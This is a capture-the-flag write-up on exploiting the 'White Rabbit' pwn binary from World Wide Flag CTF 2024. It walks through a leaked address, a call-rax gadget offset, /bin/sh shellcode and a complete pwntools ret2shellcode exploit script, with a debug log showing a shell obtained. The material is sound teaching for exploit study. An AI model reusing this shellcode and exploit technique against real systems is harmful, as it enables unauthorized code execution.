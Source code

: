 ```yaml
---
title: [WRITE UP] - World Wide Flag CTF 2024 - White Rabbit
published: 2024-12-01
image: ./image.png
tags: [PWN]
category: CTF Write ups
draft: false
---
```


![image.png](image.png)

### Description

> Just a nice easy warmup for you...
>

### Analysis

### General information

```bash
  (\\_/)
  ( •_•)
  / > 0x556bdd42d180

follow the white rabbit...
```

```bash
[*] '/home/alter/CTFs/WWF_2024/pwn/white_rabbit'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
    Debuginfo:  Yes
```

So we can see here, the binary have no canary and the PIE is enabled. One more thing is `Stack` is executable and it leak the address each time we run the binary. So we can think about `ret2shellcode`

### Brain time

So my experience for this is just take that address and maybe we will need it, so this is my code for take that leak address:

```python
p.recvuntil(b'/ > ')
leak = int(p.recvline()[:-1], 16)
info("[+] Leak: " + hex(leak))
```

Just check what that address it leak is by using dynamic debugging. I'm breakpoint at `follow()` function. We can see our leak address in my case is `0x555555555180` (I have disabled `ASLR` for easier). When I look around there is the leak address of `main` function:

```python
gef➤  disas*main
Dump of assembler code for function main:
   0x0000555555555180 <+0>:     push   rbp
```

Or we can look at pseudocode in IDA:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  puts("\\n  (\\\\_/)");
  puts(asc_200D);
  printf("  / > %p\\n\\n", main);
  puts("follow the white rabbit...");
  follow();
  return 0;
}
```

As said before, the idea of this is `ret2shellcode` so what we need to find is:

- Offset from input to RIP
- Gadget
- Craft shellcode

For the offset, it is a little bit easy so I will skip this

The next step involves identifying the gadget. To identify the gadget in a PIE (Position Independent Executable) binary, tools like `ROPgadget` and `ropper` are used. However, because PIE is enabled, these tools cannot display the absolute addresses of gadgets. Instead, they provide offsets relative to the binary's base address, which is determined only at runtime.

To work around this, I used `ROPchain` to find the gadget's offset. Then, I calculated its relative position by comparing the gadget’s offset to the address of the main function in the binary. To do this, I first disassembled the main function in GDB before running the binary, capturing its pre-loading address. Subtracting the gadget's offset from the main’s address gave me the relative offset, which remains consistent between local and remote execution of the binary due to the fixed layout enforced by PIE.

```
➜  pwn ROPgadget --binary white_rabbit | grep "call rax"
0x000000000000100d : add byte ptr [rax], al ; test rax, rax ; je 0x1016 ; call rax
0x0000000000001014 : call rax
0x0000000000001012 : je 0x1016 ; call rax
0x0000000000001010 : test eax, eax ; je 0x1016 ; call rax
0x000000000000100f : test rax, rax ; je 0x1016 ; call rax

```

```nasm
gef➤  disas*main
Dump of assembler code for function main:
   0x0000000000001180 <+0>:     push   rbp

```

So our gadget's offset is `0x1180` - `0x10bf`= `0xc1`. But why is `call rax`? Because in the `x86-64` calling convention, the return value of a function is typically stored in the `RAX` register. This convention applies to most functions, including standard library functions like `gets`.

The last one is shellcode, just basic `/bin/sh` shellcode:

```nasm
    push 0x3b
    pop rax

    mov rdi, 0x68732f6e69622f
    push rdi
    push rsp
    pop rdi

    cdq
    push rdx
    pop rsi

    syscall
```

### Exploit

```python
#!/usr/bin/python3
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./white_rabbit', checksec=False)
def GDB(): gdb.attach(p, gdbscript='''

c
''') if not args.REMOTE else None

p = remote('', ) if args.REMOTE else process(argv=[exe.path], aslr=False)
set_p(p)
if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

ru(b'/ > ')
leak = int(rl()[:-1], 16)
info("Leak: " + hex(leak))

gadget = leak - 0xc1
shellcode = asm("""
    push 0x3b
    pop rax

    mov rdi, 0x68732f6e69622f
    push rdi
    push rsp
    pop rdi

    cdq
    push rdx
    pop rsi

    syscall
""", arch="amd64")

pl = flat(
    shellcode.ljust(120, b'A'),
    p64(gadget)
    )

sl(pl)
interactive()

```

```bash
➜  pwn ./exploit.py
[+] Starting local process '/home/alter/CTFs/WWF_2024/pwn/white_rabbit': pid 12216
[!] ASLR is disabled!
[DEBUG] Received 0x47 bytes:
    00000000  0a 20 20 28  5c 5f 2f 29  0a 20 20 28  20 e2 80 a2  │·  (│\\_/)│·  (│ ···│
    00000010  5f e2 80 a2  29 0a 20 20  2f 20 3e 20  30 78 35 35  │_···│)·  │/ > │0x55│
    00000020  35 35 35 35  35 35 35 31  38 30 0a 0a  66 6f 6c 6c  │5555│5551│80··│foll│
    00000030  6f 77 20 74  68 65 20 77  68 69 74 65  20 72 61 62  │ow t│he w│hite│ rab│
    00000040  62 69 74 2e  2e 2e 0a                               │bit.│..·│
    00000047
[*] Leak: 0x555555555180
[DEBUG] cpp -C -nostdinc -undef -P -I/home/alter/.local/lib/python3.12/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
        push 0x3b
        pop rax
        mov rdi, 0x68732f6e69622f
        push rdi
        push rsp
        pop rdi
        cdq
        push rdx
        pop rsi
        syscall
[DEBUG] /usr/bin/x86_64-linux-gnu-as -64 -o /tmp/pwn-asm-x8nkdsmx/step2 /tmp/pwn-asm-x8nkdsmx/step1
[DEBUG] /usr/bin/x86_64-linux-gnu-objcopy -j .shellcode -Obinary /tmp/pwn-asm-x8nkdsmx/step3 /tmp/pwn-asm-x8nkdsmx/step4
[DEBUG] Sent 0x81 bytes:
    00000000  6a 3b 58 48  bf 2f 62 69  6e 2f 73 68  00 57 54 5f  │j;XH│·/bi│n/sh│·WT_│
    00000010  99 52 5e 0f  05 41 41 41  41 41 41 41  41 41 41 41  │·R^·│·AAA│AAAA│AAAA│
    00000020  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000070  41 41 41 41  41 41 41 41  bf 50 55 55  55 55 00 00  │AAAA│AAAA│·PUU│UU··│
    00000080  0a                                                  │·│
    00000081
[*] Switching to interactive mode

follow the white rabbit...
$ whoami
[DEBUG] Sent 0x7 bytes:
    b'whoami\\n'
[DEBUG] Received 0x6 bytes:
    b'alter\\n'
alter
```
